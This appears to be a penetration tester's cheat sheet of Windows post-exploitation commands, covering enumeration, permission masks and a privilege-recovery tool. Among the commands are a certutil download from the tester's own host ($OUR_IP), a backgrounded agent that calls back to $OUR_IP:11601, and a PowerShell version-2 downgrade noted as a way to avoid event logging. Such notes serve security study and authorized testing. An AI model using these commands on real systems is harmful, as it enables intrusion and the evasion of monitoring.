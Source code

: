 # Tricks

```powershell
# Download files if iwr doesn't work
certutil.exe -f -urlcache http://$OUR_IP/example.txt example.txt

# Run an executable as a process in the background
Start-Process -FilePath '.\agent.exe' -ArgumentList '-connect $OUR_IP:11601 -retry -ignore-cert' -NoNewWindow

# Check for defender
Get-MpPreference
# CMD equivalent
sc query windefend

# Check firewall
netsh advfirewall show allprofiles

# Stop processes
Get-Process $PROCESS_NAME | Stop-Process
Get-Process | Where-Object { $_.ProcessName -like '*$PROCESS_NAME*' } | Stop-Process

# Open explorer in the current directory
Invoke-Item .

# Check inbound/outbound firewall rules
netsh advfirewall firewall show rule name=all dir=in
netsh advfirewall firewall show rule name=all dir=out

# Check ARP table
arp -a

# Check environment variables
Get-ChildItem env:

# List permissions
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
Get-Acl Microsoft | Select-Object -ExpandProperty Owner

# Query registry key
reg query 'HKLM\SOFTWARE\Key' /s
reg query 'HKLM\SOFTWARE\Key' /v EncKey

# Downgrade powershell version (prevents actions from being logged in Event Viewer)
powershell.exe -version 2
```

**Notable Groups:**

```bash
Administrators             # Full control
Remote Desktop Users       # Remote access via RDP
Remote Management Users    # Remote access via WinRM
```

`icacls` permissions mask table (ACE = access control entry)

- `F` - Full access
- `M` - Modify access
- `RX` - Read and execute access
- `R` - Read-only access
- `W` - Write-only access

Inheritance rights ([MSDN](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls))

- `I` - Inherit. ACE inherited from the parent container
- `OI` - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
- `CI` - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
- `IO` - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
- `NP` - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.

**Role is `nt authority\local service` without `SeImpersonatePrivilege` present:**

Commonly the role for a web server running on a windows computer (such as `xampp`)

[FullPowers](https://github.com/itm4n/FullPowers)

```powershell
.\FullPowers.exe
```

